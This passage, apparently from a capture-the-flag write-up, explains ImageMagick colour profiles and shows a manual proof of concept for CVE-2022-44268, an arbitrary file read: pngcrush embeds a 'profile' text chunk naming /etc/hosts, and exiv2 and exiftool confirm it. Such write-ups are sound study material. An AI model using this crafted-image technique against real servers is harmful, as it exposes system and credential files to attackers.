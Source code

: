 In ImageMagick, a profile refers to a set of color management settings that define how colors are represented and handled in an image. Color management is important because different devices (such as cameras, monitors, and printers) may interpret and reproduce colors differently. Profiles help ensure consistent and accurate color representation across various devices.

### POC Exploit

#### Manual

There are many POC scripts out there, but I prefer to do it manually [This Github page](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC) has steps for doing so. I’ll start with a generic PNG, and use `pngcrush` to add the profile string:

```

oxdf@hacky$ pngcrush -text a "profile" "/etc/hosts" poc.png
  Recompressing IDAT chunks in poc.png to pngout.png
   Total length of data found in critical chunks            =     21089
   Best pngcrush method        =   6 (ws 15 fm 6 zl 9 zs 0) =     20070
CPU time decode 0.004922, encode 0.052924, other 0.001132, total 0.059650 sec

```

This creates a new file, `pngout.png`, which has the metadata in the `tEXt` section:

```

oxdf@hacky$ exiv2 -pS pngout.png 
STRUCTURE OF PNG FILE: pngout.png
 address | chunk |  length | data                           | checksum
       8 | IHDR  |      13 | .......z....                   | 0x727a55a2
      33 | gAMA  |       4 | ....                           | 0x0bfc6105
      49 | cHRM  |      32 | ..z&..............u0...`..:..  | 0x9cba513c
      93 | bKGD  |       6 | ......                         | 0xa0bda793
     111 | tIME  |       7 | .......                        | 0x9208ee1c
     130 | IDAT  |   20013 | x.....%.U.Z.N..n..&j...A3....a | 0x73423cfd
   20155 | tEXt  |      37 | date:create.2023-05-15T20:26:1 | 0x2850565c
   20204 | tEXt  |      37 | date:modify.2023-05-15T20:26:1 | 0x590deee0
   20253 | tEXt  |      18 | profile./etc/hosts             | 0xc560a843
   20283 | IEND  |       0 |                                | 0xae426082

```

`exiftool` will show it as well:

```

oxdf@hacky$ exiftool pngout.png
ExifTool Version Number         : 12.40
File Name                       : pngout.png
...[snip]...
Profile                         : /etc/hosts
Image Size                      : 183x122
Megapixels                      : 0.022

```
